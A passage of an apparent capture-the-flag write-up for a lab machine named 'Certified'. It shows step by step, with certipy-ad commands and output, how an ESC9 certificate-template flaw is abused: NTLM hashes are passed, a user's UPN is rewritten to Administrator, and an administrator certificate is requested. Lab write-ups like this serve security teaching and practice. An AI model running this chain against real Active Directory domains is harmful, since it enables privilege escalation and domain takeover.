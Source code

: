 ```bash
[*] Saved BloodHound data to '20241124195329_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241124195329_Certipy.txt'
[*] Saved JSON output to '20241124195329_Certipy.json'
```

We can inspect the output to find a ESC9 vulnerable certificate:
```bash
cat 20241124195329_Certipy.txt                                                             
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA

-- SNIP --

Certificate Templates
  0
    Template Name                       : CertifiedAuthentication

-- SNIP --

    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

The following guide was used to assist in the exploitation process: [Link](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates).

ESC9 is a certificate vulnerability in which the userPrincipalName of one user can be changed to that of another user. In this case we will change the UPN of the ca_operator user to that of the Administrator user using certipy-ad:
```bash
certipy-ad account update -username "management_svc@certified.htb" -hashes 'a091c1832bcdd4677c28b5a6a1295584:a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

We will pass the hash of the management_svc user to perform this operation. This user was used as he has GenericWrite permissions over the ca_operator user. Requesting the Administrator.pfx file using the ca_operator user requires us to pass an NTLM hash. For this we can use a NTLM hash generator like below to convert a plaintext password into an NTLM hash:
![Pasted image 20241124130628.png](/images/Pasted image 20241124130628.png){: .normal }


Now that we have all the required pieces of information to request the .pfx file we can do so:
```bash
certipy-ad req -username "ca_operator@certified.htb" -hashes "602F5C34346BC946F9AC2C0922CD9EF6:602F5C34346BC946F9AC2C0922CD9EF6" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication' -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
